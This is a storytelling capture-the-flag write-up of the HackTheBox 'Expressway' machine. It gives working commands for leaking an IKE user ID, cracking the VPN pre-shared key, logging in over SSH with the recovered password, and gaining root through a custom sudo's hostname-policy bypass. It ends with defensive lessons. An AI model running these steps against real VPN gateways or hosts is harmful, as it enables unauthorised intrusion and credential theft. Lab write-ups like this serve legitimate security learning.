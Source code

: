 # Breaking Through "Expressway"

Once upon a late-night session in the cyber underground, I stumbled across a fresh **“Expressway”** box on **HackTheBox** — a promised route to digital mastery and a cautionary tale of misconfigured VPN gateways and homemade privilege escalation tools. Like a true cyber-detective, I geared up, eager for something deeper than just artifact hunting. This wasn’t just about flags — it was about learning.

---

## Chapter 1: Recon — Listening for Opportunity

### The Opening Scene
Imagine the network as a vast, silent street—shrouded in shadows. My first step: turn on the headlights and see what’s out there.

### TCP Scan — First Pass, False Comfort
```bash
nmap -p- -T4 -sS 10.10.11.87 -oN initial_tcp_scan.txt
```
SSH (port 22) greets me and then slams the door in my face. No welcome mat here. The box seems as silent as a ghost. Seasoned hackers know—if you only look for doors, you might miss the windows.

### The UDP Angle — Where All the Clues Hide
```bash
sudo nmap -sU 10.10.11.87 --min-rate 5000
```
Port 500 lights up. IPsec/IKE. VPN land: hostile territory for most, but a playground for those who know the rules.

---

## Chapter 2: The VPN Enigma

### Aggressive Negotiations
IKE is like the bouncer at the Expressway nightclub—it checks IDs and sometimes lets a little info slip during “aggressive mode.” I deploy the toolkit:

```bash
sudo apt install ike-scan
sudo ike-scan -A 10.10.11.87
```

**"Aggressive Mode"** leaks something precious — a user ID: `ike@expressway.htb`. In this city, names are keys.

### Cracking the Vault — Snatching the Pre-Shared Key
I provoke the handshake to spill its hashed secrets:

```bash
sudo ike-scan -A 10.10.11.87 --id=ike@expressway.htb -Pike.psk
```

The file `ike.psk` contains the hashed PSK. I bring in heavy artillery: `psk-crack`.

```bash
psk-crack -d /usr/share/wordlists/rockyou.txt ike.psk
```

And in the wordlist, in classic CTF fashion, the passphrase **freakingrockstarontheroad** emerges. Weak credentials — the box builder’s favorite lesson. Never reuse your club’s master key as your personal password.

---

## Chapter 3: First Foothold — The Human Touch

### SSH: No Brute Force Needed
```bash
ssh ike@10.10.11.87
# Password: freakingrockstarontheroad
```

Success — the terminal blinks and I'm on! This is the first flag checkpoint, but the true journey is deeper.

```bash
cat ~/user.txt
```

What’s next? Enumeration — never trust surface impressions.

### Group Therapy: The Proxy Connection
```bash
id
# Output: uid=1000(ike) gid=1000(ike) groups=1000(ike),998(proxy)
```
`proxy`? Time to investigate. Every group on Linux has a story.

---

## Chapter 4: Squid Games — Secrets in the Logs

Through the foggy proxy glass, valuable traces appear:

```bash
ls -lh /var/log/squid/
cat /var/log/squid/access.log | grep DENIED
```

A denied request references `offramp.expressway.htb` — an internal hostname. That oddity will soon become crucial.

---

## Chapter 5: Sudo — The Trojan Command

### A Sudo Like No Other
Find the imposter:

```bash
which sudo
ls -lh /usr/local/bin/sudo
```

A custom `sudo`, tentatively setuid-root, oversized (1MB+). Never trust a custom lock without testing its mechanism.

```bash
sudo -l
```

The output reveals a hostname-based policy. Suspicious? Yes. Exploitable? Always check!

### Crafting the ByPass — When Policy Goes Awry
Remember that internal hostname? Here's how to break in:

```bash
/usr/local/bin/sudo -h offramp.expressway.htb /bin/bash
```

A root shell. All the alarms go silent — when a hostname check forgets who the real boss is. In real life, always audit custom binaries and their policies.

### Claiming the Spoils
```bash
cat /root/root.txt
```

The digital trophy — a flag is more than text. It’s a marker of your journey, your learning, your storytelling.

---

## Epilogue: Lessons from the Expressway

- **Aggressive Mode in IKE:** Easily leaks user IDs, allows offline dictionary attacks. *Real-life tip:* always disable aggressive mode on VPNs and use strong PSKs.
- **Password Reuse:** If your PSK doubles as your user password, you might as well hand attackers the keys. Rotate and randomize credentials!
- **Custom Sudo Policies:** Flawed logic in binaries handling hostname, groups, or chroots can turn privilege separation into a suggestion — not a rule.
- **Log Files as Intel:** Proxy logs, denied requests, and internal hostnames often reveal attack paths hidden from standard enumeration.
- **Latest Vulnerabilities Matter:** Staying informed about releases like **CVE-2025-32463** empowers you to pivot quickly if patching is incomplete.

---

## Final Thoughts
The **“Expressway”** revealed the junction between classic protocol weakness and modern privilege escalation. Each step cracked open a lesson: enumerate everything, question every binary, and find joy not just in the exploit, but in the understanding.
